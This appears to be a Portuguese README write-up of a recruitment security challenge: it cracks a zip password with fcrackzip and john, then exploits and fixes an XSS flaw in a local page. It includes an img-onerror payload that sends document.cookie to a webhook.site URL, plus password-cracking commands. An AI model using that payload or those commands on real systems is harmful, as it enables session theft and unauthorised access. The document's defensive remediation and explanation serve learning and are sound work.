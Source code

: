 # 🔐 Desafio Técnico - dti digital

Projeto desenvolvido como parte do processo seletivo da **dti digital**.

---

## 🧩 Etapa 1 - Quebra de senha de arquivo `.zip`

A primeira fase do desafio consistia em descobrir a senha de um arquivo `.zip`, que continha o enunciado da segunda parte.

---

## 🚧 Estratégias Utilizadas

### 1. Força Bruta Simples (sem padrões)

#### 🛠 Ferramenta: `fcrackzip`

o fcraskzip permite escolher quais tipos e quantidade de digitos utilizados para quebrar o padrão. 

Comando usado:
```sh
fcrackzip -u -b -c 1aA! -l 4-4 arquivo_protegido.zip
```

- `1` → dígitos numéricos  
- `a` → letras minúsculas  
- `A` → letras maiúsculas  
- `!` → caracteres especiais  
- `-l 4-4` → senhas de exatamente 4 caracteres

A primeira tentativa foi realizar combinações simples entre letras maiusculas, minusculas, caracteres especias e numeros. Ou seja, o número 6 na linha "número" e na coluna "especial" significa que foi tentado gerar padrões de até 6 digitos utilizando combinações de números e caracteres especiais.

|                     | Número | Minúsculo | Maiúsculo | Especial |
|---------------------|:------:|:---------:|:---------:|:--------:|
| **Número**          |   8    |     5     |     5     |**->6**    |
| **Minúsculo**       |   5    |     6     |     5     |    5     |
| **Maiúsculo**       |   5    |     5     |     6     |    5     |
| **Especial**        |   6    |     5     |     5     |6       |

Foram realizadas todas combinações possíveis dada a complexidade de tempo, como por exemplo, utilizando digitos númericos, caracteres especiais e letras minúsculas, porém não surtiu efeito.

> ❌ Tentativa falhou.

---

### 2. Força Bruta com Dicionário Personalizado

#### 🛠 Ferramenta: `fcrackzip` com dicionário

Para a segunda tentativa foram criados scripts em python(`/bruteForce`) para gerar combinações de senhas, e salvando as combinações em um arquivo `dicionario.txt`. Por exemplo, gerar senhas com o padrão `DTI`,`dti`, `dtiDigital`, `SENHA` ou `anna` (nome recrutadora).

Exemplos:
- `123DTI123`
- `abDTI123`
- `ooSENHAoo`

Comando usado:
```sh
fcrackzip -u -D -p dicionario.txt desafio.zip
```

> ❌ Tentativa falhou (mas poderia funcionar com o padrão correto).

---

### 3. Força Bruta com Dicionário Real

#### 🛠 Ferramenta: `john-jumbo`

Utilizado o dicionário `rockyou.txt`.

##### Passo 1: Gerar o hash
```sh
~/john-jumbo/run/zip2john /home/gnobisp/Desktop/desafio.zip > /home/gnobisp/Desktop/hash.txt
```

##### Passo 2: Rodar o ataque
```sh
john --format=zip /home/gnobisp/Desktop/hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

> ✅ Senha descoberta com sucesso: **`oopasswordoo`**

---
## 🧩 Etapa 2 - Explorar vulnerabilidade da página
Na primeira fase do desafio obtivemos dois arquivos um `index.html` e um `readme.txt` que continha as instruções da segunda fase do desafio.

### O primeiro passou tomado foi iniciar o arquivo index.html em um servidor `http` local
```sh
python3 -m http.server 8000
```
Após isso utilizei a ferramenta de inspecionar para encontrar possíveis falhas.

### Encontrando as dicas
A primeira dica que encontrei foi a própria flag. A partir dela, identifiquei uma possível variável de interesse: document.cookie = "flag=XSS_FLAG_YOU_DID_IT";.
Ao inspecionar um pouco mais, percebi uma segunda pista, deixada devido ao desenvolvimento erroneo do código. O próprio desenvolvedor parecia estar ciente da falha, e por isso incluiu o seguinte filtro:
```sh
let sanitizedResult = result.toString().replace(/script|alert/gi, '');
```
Porém, a solução mal feita gerou uma dica valiosa de como explorar a página, deveriamos utilizar uma técnica chamada `xss vulnerability`, essa consiste de injetar scripts na página e coletar dados sensíveis.

### Explorando a falha
Primeiramente, tentei injetar um script simples como, por exemplo: 
```sh
<script>alert(document.cookie)</script>
```
Porém não surtiu efeito, por causa do filtro citado anteriormente.
Após isso, procurei comando que conseguiriam sair desse filtro, a solução encontrada foi passar o comando como uma imagem:
```sh
<img src="x" onerror="fetch('https://webhook.site/612782d7-71cc-4c36-8869-472cd8b9c56d?c='+document.cookie); alert(document.cookie)">
```
No comando acima, eu também coloquei para que o dado seja transmitido para um servidor de teste, para evidenciar a falha de segurança. Esse texto pode ser visto no gif abaixo:

![GIF](docs/teste.gif)


## 🧩 Etapa 3 - Refatorar o código corrigindo a falha
Na segunda fase do desafio, encontramos a falha de segurança e exploramos ela. Para a etapa 3, devemos resolver essa falha de segurança. 

#### 1ª Solução Testada: Usar `<input type="number">`
O que foi feito:
Substituir os campos de:
```sh
<input type="text" id="num1" placeholder="Número 1">
```
para
```sh
<input type="number" id="num2" placeholder="Número 1" required>
```
A solução, inicialmente, se mostrou eficiente. O usuário fica impossibilitado de escrever texto, assim impossibilitando de enviar scripts. Porém, o usuário pode alterar as regras do html assim modificando para que seja aceito texto novamente.

> ❌ Tentativa falhou.
#### 2ª Solução Testada: Usar `ewEntry.textContent = entry;`

A segunda solução encontrada foi substituir:
```sh
newEntry.innerHTML = entry;
```
por 
```sh
newEntry.textContent = entry;
```
Isso evita que scripts sejam rodados. No meu pensamento o problema do item anterior iria permanecer, ou seja, o usuário poderia alterar o código html para voltar para a  variavel.innerHTML. Porém, pelos testes realizados, foi resolvido.

> ✅ Falha resolvida.

## 🧩 Etapa 4 - Explicando a falha
Considerando o seguinte enunciado:
```sh
Você se deparou com esse código em um dos times que está auxiliando, aqui na dti. E agora? Qual seria sua abordagem para apoiar o time?
Como explirar para eles o que está acontecendo e como o código poderia ser mais seguro?
```
#### Explicando o problema
```sh

Identificamos uma falha de segurança do tipo Cross-Site Scripting (XSS), que permite que um usuário mal-intencionado injete código JavaScript por meio dos campos de entrada.

É como deixar a porta do nosso escritório aberta. Qualquer pessoa pode entrar, usar os computadores e sair sem ser notada. Tudo parece funcionar normalmente, mas se alguém com más intenções aproveitar essa brecha, poderá causar danos irreparáveis em nossos sistemas.

A solução que eu encontrei foi o uso de ".innerHTML" por ".textContent" para neutralizar a execução de código malicioso. Alguém tem sugestões ou alternativas para discutirmos?

Se não, vamos para o próximo passo, que seria procurar no restante dos nosso códigos que usamos .innerHTML indevidamente. Encontrando esse erros, vamos refatorar o código de maneira adequada.

Um próximo passo futuro, será analisar possíveis vazamentos que ocorreram quando essa vulnerabilidade estava ativa.

Não se preoucupem, irei orientar vocês nesse primeiro momento de como podemos fazer isso
```